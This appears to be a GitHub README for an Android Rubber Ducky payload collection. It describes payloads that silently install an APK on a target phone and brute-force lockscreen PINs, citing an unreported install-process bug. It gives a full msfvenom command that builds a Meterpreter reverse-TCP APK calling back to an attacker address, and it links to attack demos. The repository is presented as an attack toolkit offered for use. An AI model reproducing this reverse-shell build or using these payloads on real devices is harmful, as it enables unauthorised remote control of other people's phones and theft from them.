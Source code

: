 # ANDROID_BLANKET_PARTY
This repository houses all my Android Rubber Ducky payloads

//BLANKET PArty as in that iconic scene from "FUll MEtal Jacket"//
![image](https://github.com/salvat1on/ANDROID_BLANKET_PARTY/assets/27372029/4ca1e4a8-846d-4da1-b140-8399392bd945)

These payloads will install an apk to the target device that resides in the ducky storage.

The [STAND-ALONE] Pin / Password lockscreen brute force payloads will also be included in 
this Repository.

You can create an APK Payload with metasploit with the following command in the terminal

msfvenom -p android/meterpreter_reverse_tcp LHOST=YOUR_ADDRESS LPORT=5555 -o WHATEVER_NAME.apk

The APK file must then be copied to the ducky along side the bin file you place there as well.

The APK payloads rely on a bug I found and will be reporting soon, within the APP install process

[SWIPE TO OPEN DEMO]

[![IMAGE ALT TEXT HERE](https://i.ibb.co/Yh2D6Vt/swipe.png)](https://youtu.be/Hon9YmdVehQ)

[PIN CRACKER DEMO]

[![IMAGE ALT TEXT HERE](https://i.ibb.co/gJKgg6b/pin-crack.png)](https://youtube.com/shorts/jV1f7E00P_g)
